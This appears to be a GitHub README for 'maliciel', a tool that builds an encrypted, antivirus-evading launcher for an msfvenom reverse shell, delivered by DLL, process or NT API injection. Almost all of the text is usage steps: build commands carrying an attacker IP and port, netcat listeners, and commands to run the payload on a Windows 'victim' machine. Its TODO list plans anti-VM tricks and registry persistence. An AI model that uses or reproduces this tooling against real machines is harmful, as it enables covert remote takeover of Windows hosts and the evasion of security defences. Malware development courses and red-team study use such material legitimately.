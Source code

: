# maliciel

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR or ARS encryption and decryption for functions call and main payload - `msfvenom` reverse shell as example. Support DLL injection, Process injection and NT injection

## Requirements

```bash
python3 -m pip install -r requirements.txt
sudo apt install g++-mingw-w64-x86-64
```

## Usage
## 1. DLL
### on attacker machine

check your IP:
```bash
ip a
```

![attacker machine IP](./screenshots/ip_a.png?raw=true)

run python script with flags (for example XOR encryption):
```bash
python3 maliciel.py -l 10.241.7.33 -p 443 -b 1 -c 1
```

![run python script](./screenshots/maliciel_dll_build.png?raw=true)

run netcat listener:
```bash
nc -lnvp 443
```

### then on victim machine (windows 10 x64):
run on powershell or cmd promt:
```cmd
rundll32 .\maliciel.dll, lnDspRKOhUnSxNJnPQlS
```

## 2.Injector
### on attacker machine:
check attacker ip:
```bash
ip a
```

![check IP](./screenshots/ip_a.png?raw=true)

run python script on linux (for example process `explorer.exe` and XOR encryption):
```bash
python3 maliciel.py -l 10.241.7.33 -p 443 -e explorer.exe -b 2 -c 1
```

![run python script](./screenshots/maliciel_pe_build.png?raw=true)

run netcat listener:
```bash
nc -lnvp 443
```

### then on victim machine run (windows 10 x64):
```cmd
.\maliciel.exe
```

or click (if `-m windows` param)

## 3. NT API injector
run python script on linux (for example process `mspaint.exe` and AES encryption):
```bash
python3 maliciel.py -l 10.241.7.33 -p 443 -e mspaint.exe -m console -b 3 -c 2
```

![enc and compile nt](./screenshots/maliciel_nt_build.png?raw=true)

run netcat listener:
```bash
nc -lnvp 443
```

### then on victim machine (windows 10 x64):
```cmd
.\maliciel.exe
```

## TODO
- [x] Compile injector in Kali linux
- [x] XOR + AES
- [x] Calling Windows API functions by hash names
- [x] Find Kernel32 base via asm style
- [x] One python builder
- [ ] Anti-VM tricks
- [ ] Persistence via Windows Registry run keys
- [ ] Replace msfvenom shell to custom payload
